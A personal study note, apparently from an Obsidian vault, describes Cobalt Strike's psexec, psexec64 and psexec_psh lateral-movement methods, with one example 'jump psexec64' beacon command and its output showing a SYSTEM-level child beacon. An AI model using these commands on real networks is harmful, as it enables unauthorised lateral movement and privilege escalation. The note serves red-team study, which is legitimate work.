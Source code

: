 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[PsExec]]  
___

## Description:  

For Lateral Movement in Cobalt Strike

The `psexec` / `psexec64` commands work by first uploading a service binary to the target system, then creating and starting a Windows service to execute that binary.  `psexec_psh` doesn't copy a binary to the target, but instead executes a PowerShell one-liner (always 32-bit).

Beacons executed this way run as SYSTEM.

```
beacon> jump psexec64 srv-1 smb
Started service dd80980 on srv-1
[+] established link to child beacon: 10.10.17.25

```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (04:47 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
